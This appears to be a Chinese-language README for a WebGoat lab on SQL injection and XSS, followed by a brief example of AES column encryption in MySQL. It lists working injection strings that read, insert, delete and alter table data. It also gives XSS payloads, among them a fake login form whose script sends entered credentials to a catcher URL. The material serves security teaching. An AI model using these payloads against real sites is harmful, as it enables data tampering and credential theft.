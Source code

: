 # SQL Injection 與 XSS攻擊手法
- 下載 Java
  - 網址：https://java.com/zh_TW/download/manual.jsp
  - 檔名：jre-8u281-windows-x64.exe
- 安裝 Java
  - 執行 jre-8u281-windows-x64.exe
- 下載 WebGoat 7.1
  - 網址：https://github.com/WebGoat/WebGoat/releases/tag/7.1
  - 檔名：webgoat-container-7.1-exec.jar
- 安裝 WebGoat 7.1
  - 開啟命令提示字元視窗並執行以下指令：
    - java -jar webgoat-container-7.1-exec.jar
  - 開啟 Chrome 瀏覽器輸入 http://localhost:8080/WebGoat
  - 登入帳號 guest 與通行碼 guest

## SQL Injection 測試步驟
- Numeric SQL Injection
  - 數字欄位(點選 Injection Flaws > Numeric SQL Injection)
  - 在網址列輸入 http://localhost:8080/WebGoat/start.mvc#attack/515/1100?Screen=75&menu=1200&station=101 or 1=1並檢視查詢的結果
- String SQL Injection
  - 文字欄位(點選 Injection Flaws > String SQL Injection)
  - 在 Last Name 欄位輸入「S' or '1'='1」or 「1' or '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';select * from salaries where '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';insert into salaries (userid,salary)values ('steven',100);select * from salaries where '1'='1」檢視增加的結果
  - 在 Last Name 欄位輸入「alice';delete from salaries where userid='steven」後，再重新輸入「jsmith' ; select * from salaries where '1'='1」並檢視刪除的結果
  - 在 Last Name 欄位輸入「alice' ; ALTER table salaries add temp char(255); select * from salaries where '1'='1」並檢視增加的結果

![String SQL Injection](./StringSQLI.png)
## XSS 測試步驟
- Stored XSS
  - 點選 Cross-Site Scripting(XSS) > Stored XSS Attack)
  - 在 Title 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
- Reflected XSS
  - 點選 Cross-Site Scripting(XSS) > Phishing with XSS)
  - 在 Search 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
  - Search 欄位輸入「<script>alert(document.cookie);</script>」並檢視顯示的 Cookie 值
  - 在 Search 欄位輸入下列資料，輸入完成後，檢視輸入「Account」與「Password」的結果
```
</form> 
<script> 
function hack(){ 
    var user = document.loginform.user.value; 
    var pass = document.loginform.pass.value; 
    alert("User:" + user + "\nPass:" + pass); 
    XSSImage=new Image;   
XSSImage.src="http://localhost/webgoat/catcher?PROPERTY
=yes&user="+ user + "&password=" + pass; 
}   
</script> 
<form name="loginform" ><br><br><HR> 
<H3>這個功能需要您的帳號登入(Please  input  your  account, 
again):</H3 ><br><br> 
Account:<br><input type="text" name="user"><br> 
Password:<br><input type="password" name = "pass"><br> 
<input  type="submit"  name="login"  value="login" 
onclick="hack()"> 
</form><br><br><HR>
```
![XSS](./XSS.png)
# 資料表欄位加密
- 資料表範例
- 建立資料表
```sql
CREATE TABLE employee( 
name char(20), 
username varbinary(255), 
password varbinary(255) 
)
```
- 於資料表內建立資料，同時使用加密函數將機敏資料欄位加密
```sql
INSERT INTO employee (name, username, password) values 
("johnchang",AES_ENCRYPT("john","peter1234"), 
AES_ENCRYPT ("12345","peter1234")) 
```
- 顯示加密資料
```
SELECT *, AES_DECRYPT(username, 'peter1234') 
DECOE_username, AES_DECRYPT (password, 'peter1234') 
DECOE_password FROM employee
```
````
